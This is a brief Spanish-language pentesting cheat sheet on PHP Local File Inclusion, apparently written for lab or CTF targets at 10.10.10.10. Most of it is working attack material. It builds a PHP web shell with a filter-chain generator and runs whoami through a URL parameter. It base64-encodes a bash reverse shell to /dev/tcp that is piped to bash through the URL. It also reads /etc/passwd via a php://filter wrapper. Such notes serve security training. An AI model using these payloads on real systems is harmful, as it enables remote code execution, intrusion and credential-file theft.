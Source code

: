 ```yaml
---
title : LFI
published : True
---
```

* <p> LFI : <a href="https://deephacking.tech/local-file-inclusion-lfi-web/">Local File Inclusion</a></p>
* <p>Local File Inclusion wrappers : <a href="https://deephacking.tech/php-wrappers-pentesting-web/">Wrappers</a></p>
* <p>Lfi exploit filter convert .ico : <a href="uploads/php_filter_chain_generator.py" download="php_filter_chain_generator.py">php_filter_chain_generator.py</a></p>


```bash
	python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`;?>'

```
* <p>Lo que nos permite un shell con el parametro indicativo 0 es decir:<br> <font color="red">http://10.10.10.10/login.php?0=whoami&file=//{chain generator}</font></p>
<p></p>
* <p> tambie podemos hacernos una <font color="red">web shell</font> como parametro, pero para no dar conflictos en cabeza a la url por la codificacion, tendria que estar en base64.</p>
<p></p>
```bash
$ echo "/bin/bash -i >& /dev/tcp/{IP}/{PORT} 0>&1" | base64 
 L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK

```
* <p>Luego los parametros a pasar por la url ya serian como :</p>
<p></p>
```bash
	echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK" | base64 -d|bash

```
* <p><font color="red">Wraper de codificacion en base64</font> para la lectura de un archivo.</p>
<p></p>

```bash
	http://10.10.10.10/login.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

```

